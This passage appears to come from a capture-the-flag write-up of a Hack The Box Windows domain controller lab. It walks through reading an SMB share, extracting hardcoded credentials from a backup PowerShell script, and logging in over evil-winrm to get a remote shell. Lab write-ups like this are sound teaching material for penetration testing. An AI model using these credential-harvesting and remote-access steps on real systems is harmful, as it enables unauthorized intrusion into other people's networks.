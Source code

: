 ```
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 

```

And we found that, `david.orelious` can read the `DEV share`


So we read the `DEV share`:
```
smbclient //10.10.11.35/DEV -U 'david.orelious'        
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 477932 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> exit

```


```
cat Backup_script.ps1                                                             

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

And we found the following credentials: `emily.oscars:Q!3@Lp#M6b*7t*Vt`

And from the enumerating the AD in bloodhound we know that `emily.oscars` is a high value user, and is from the following groups: `REMOTE MANAGEMENT, BACKUP OPERATORS`

So we can login to it's account using `evil-winrm`

```
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> ls
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd Desktop
```